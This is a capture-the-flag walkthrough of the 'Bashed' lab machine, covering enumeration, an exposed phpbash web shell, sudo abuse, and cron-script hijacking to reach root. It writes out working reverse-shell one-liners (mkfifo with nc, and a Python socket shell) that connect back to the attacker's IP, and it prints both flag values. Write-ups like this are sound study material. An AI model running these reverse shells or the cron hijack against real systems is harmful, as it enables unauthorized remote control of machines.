


# Bashed (Easy · Linux)

**Author:** Ph4n3s
**Date:** 2026-10-21
**IP:** 10.129.78.225
**Difficulty:** Easy / Linux

---

## 1. Enumeration

### 1.1 Ping

First we run a `ping -c 5 10.129.78.225`, which returns the following:

```
64 bytes from 10.129.78.225: icmp_seq=1 ttl=63 time=49.3 ms
```

With a TTL of 63 (close to 64) we can infer that this is a Linux machine.

### 1.2 Open port enumeration

```
nmap -p- --open -T4 --min-rate 5000 -oN ~/HTB_machines/Bashed/ports 10.129.78.225
```

```
PORT   STATE SERVICE
80/tcp open  http
```

The only open port is 80, a web service.

### 1.3 Technology enumeration

```
nmap -p 80 -sVC --min-rate 5000 -T4 -oN ~/HTB_machines/Bashed/targeted 10.129.78.225
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Apache 2.4.18 is a 2015 release, so it might carry some known vulnerability. We visit the site to see what it is about:



It is "Arrexel's" personal blog. The first post, titled **phpbash**, is an important hint: phpbash is a single-line PHP pseudo-shell meant for pentesting, and the post itself says the author developed it *"on this very server"* — meaning it is probably hosted in some directory of this website.

We also run a `curl -I -v http://10.129.78.225:80/` to inspect the headers, but get nothing relevant beyond the standard HTTP/1.1 request.

### 1.4 Searching for known exploits

With `searchsploit apache 2.4` we find nothing applicable to this specific version (the results are for 2.4.23 and 2.4.49, different versions), so we drop this path.

### 1.5 nmap vuln script

```
nmap -p 80 -T4 --min-rate 5000 --script vuln -oN ~/HTB_machines/Bashed/vulns 10.129.78.225
```

```
PORT   STATE SERVICE
80/tcp open  http
|_http-sql-injection: ERROR: Script execution failed (use -d to debug)
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|     Disclosure date: 2009-09-17
| http-internal-ip-disclosure:
|_  Internal IP Leaked: 127.0.1.1
| http-enum:
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
```

Here `/dev/` already shows up as an interesting directory, which fits the hint from the blog post. We discard Slowloris (it is a DoS and we do not want to take the machine down).

---

## 2. Fuzzing

We confirm the content with a basic wordlist:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.78.225:80/FUZZ -mc 200,204,301,302,307,401,403 -t 100
```

```
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 68ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 52ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 49ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 50ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 52ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 55ms]
server-status           [Status: 403, Size: 301, Words: 22, Lines: 12, Duration: 51ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 61ms]
```

Browsing to `http://10.129.78.225/dev/` we find `phpbash.php`, the tool mentioned in the blog, already deployed and accessible without authentication. It is a web pseudo-shell that runs commands with the privileges of the server user (`www-data`):



Navigating with it we reach `/home/arrexel/user.txt`:

```
FLAG arrexel -> d31b69773ae699b8a8989cd92bf934a5
```

The first flag is obtained without exploiting anything else: the developer themselves left `/dev/` exposed with their own testing tool.

---

## 3. Privilege escalation

Since we already have command execution via `phpbash`, there is no need to exploit anything additional; we go straight to escalating privileges.

### 3.1 First attempt

```
sudo -l
```

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

`www-data` can run any command as `scriptmanager` without a password. The direct attempt:

```
sudo -u scriptmanager bash -i
```

fails with:

```
bash: cannot set terminal process group (869): Inappropriate ioctl for device
bash: no job control in this shell
```

This error (`ioctl`) happens because the `phpbash` pseudo-shell is not a real TTY, so an interactive bash cannot properly manage the terminal input/output. The fix is to open a real reverse shell.

### 3.2 Reverse shell as scriptmanager

With a listener (`nc -lvnp 4444`) on our machine, we launch from `phpbash`:

```
sudo -u scriptmanager bash -c 'rm -f /tmp/f; mkfifo /tmp/f; (cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.16.120 4444 > /tmp/f &)'
```

This creates a named pipe (`mkfifo`) that connects the input and output of an interactive shell to our `nc` connection, giving us a fully functional shell as `scriptmanager`.

### 3.3 Final escalation to root

Now as `scriptmanager`, `su -l` asks for a password we do not know. Reviewing the system we find the `/scripts` folder, with write permissions over:

```
test.py
test.txt
```

This, together with the fact that they are executed periodically (probably by a cron job as root, judging by the folder name), lets us overwrite `test.py` with a Python reverse shell (standard GTFOBins payload):

```python
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.120",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/sh")' > /scripts/test.py
```

We open a second listener on port 4445 and wait for the cron to run the script. Shortly after, we receive a shell as **root**, and browse to `/root/root.txt`:

```
Flag root -> ccf156f4bdeb07a6ee1c61cc8561adcf
```

---

## Quick summary

**What the machine was:** an Apache server hosting "Arrexel's" development blog, which (unknowingly) left a PHP pseudo-shell (`phpbash`) publicly exposed in `/dev/`, originally used for the author's own testing.

**Enumeration:** `nmap` → only port 80 → the blog itself mentions the `phpbash` tool → `nmap --script vuln` and `ffuf` confirm `/dev/` as an exposed directory.

**Initial access:** `phpbash.php` gives direct command execution as `www-data`, with no need to exploit anything — it was a deployment mistake, not a code vulnerability.

**Privilege escalation:** `sudo -l` → `www-data` can run any command as `scriptmanager` without a password → an interactive bash fails due to the lack of a real TTY → solved with a reverse shell via `mkfifo` + `nc` → as `scriptmanager`, we abuse write permissions over a script in `/scripts/` run periodically by a cron job as root → overwrite it with a Python reverse shell payload → shell as root.

**Key concept learned:** not every privilege escalation relies on a technical exploit — here the key was a bad deployment of the author's own pentesting tool (phpbash) and a cron job with misconfigured write permissions. Also, the `ioctl` error caused by the lack of a TTY is something you have to recognize and solve with a pipe (`mkfifo`) instead of assuming the machine is "broken".

---

**Flags:**
- `arrexel/user.txt` → `d31b69773ae699b8a8989cd92bf934a5`
- `root.txt` → `ccf156f4bdeb07a6ee1c61cc8561adcf`
